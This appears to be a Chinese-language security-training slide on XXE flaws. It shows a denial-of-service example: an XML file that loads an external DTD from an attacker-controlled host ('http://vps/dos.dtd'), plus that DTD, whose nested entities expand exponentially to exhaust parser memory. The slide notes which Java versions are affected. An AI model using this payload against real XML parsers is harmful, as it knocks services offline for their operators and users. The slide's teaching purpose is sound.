

XXE漏洞实例
实例4： DOS攻击

经典的用于DoS的xml文件样例如下，原理为构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中,这个在其他编程语言或者JDK版本较低的Java中可利用，但在高版本JDK的环境中会报错中断解析：
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://vps/dos.dtd" [
<!ELEMENT data (#PCDATA)>
]>
<data>&tea;</data>

在攻击者服务器放置dos.dtd：
<!ENTITY % a0 "dos" >
<!ENTITY % a1 "%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;">
<!ENTITY % a2 "%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;">
<!ENTITY % a3 "%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;">
<!ENTITY % a4 "%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;">
<!ENTITY tea "%a4;" >